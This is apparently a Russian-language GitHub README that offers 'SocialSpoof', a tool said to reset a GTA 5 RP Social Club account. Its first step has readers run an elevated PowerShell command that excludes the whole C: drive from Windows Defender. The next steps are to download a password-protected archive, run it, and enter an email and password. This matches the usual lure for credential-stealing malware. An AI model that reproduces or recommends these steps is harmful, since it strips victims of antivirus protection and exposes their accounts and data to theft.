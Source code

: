 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️

Сделайте расширение системных файлов RAGE MP

Нажмите комбинацию Windows+R и введите команду 

` powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'" `

Шаг 2 📥

Как только выполнили расширение, загрузите SocialSpoof

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
